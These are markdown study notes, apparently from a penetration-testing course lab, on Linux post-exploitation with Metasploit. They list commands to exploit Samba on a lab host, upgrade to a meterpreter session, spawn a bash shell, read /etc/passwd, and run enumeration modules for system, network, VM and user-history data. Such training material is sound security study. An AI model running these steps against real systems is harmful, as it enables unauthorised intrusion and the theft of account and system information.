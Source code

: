 ### Linux post exploitation module
- The MSF provides us with various post exploitation modules for both windows and linux
- We can utilize these post exploitation modules to enumerate information about the linux system we currently have access to:
- enumerate system configuration
- enumerate environment variables
- enumerate network configuration
- vm check
- enumerate  user history

#### lab
- service postgresql start && msfconsole 
- setg RHOSTS demo.ine.local
- db_nmap -sV 192.112.165.3
- search type:exploit samba
- use 3
- set everything requires
- run
- this will give us cmd shell
- ctrl + z [ background the sessions]
- session -u 1 [ upgrading to meterpreter session]
- sysinfo [about system info]
- shell
- /bin/bash -i [ for getting bash shell]
- whoami
- cat /etc/passwd
- cat /etc/*issue
- uname -r [getting kernal info]
- uname -a [getting additional info about kernel]
- ip a [ getting ip interfaces ]
- netstat -antp [listing various service]
- ps aux  [list all the services]
- env [getting environment variables]
- ctrl + c 

#### metasploit modules 
- search enum_configs [this required sessions ]
- loot [ to see all the information ]
- search env platform:linux
- search enum_network
- search enum_protections
- notes [ this command show all the saved info by the previous command in metasploit ]
- search enum_system
- search checkcontainer 
- search checkvm
- search enum_users_history
  
